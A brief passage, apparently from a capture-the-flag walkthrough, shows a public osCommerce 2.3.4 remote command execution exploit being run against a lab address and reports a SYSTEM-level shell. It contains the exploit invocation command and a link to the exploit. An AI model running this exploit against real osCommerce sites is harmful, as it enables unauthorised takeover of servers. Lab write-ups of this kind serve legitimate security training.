


Now we can search for osCommerce exploits:
Using [this](https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution) exploit:
```
python3 osCommerce2_3_4RCE.py http://10.10.117.239:8080/oscommerce-2.3.4/catalog
```

Now we get a shell:


We already have an `nt authority\system` shell.
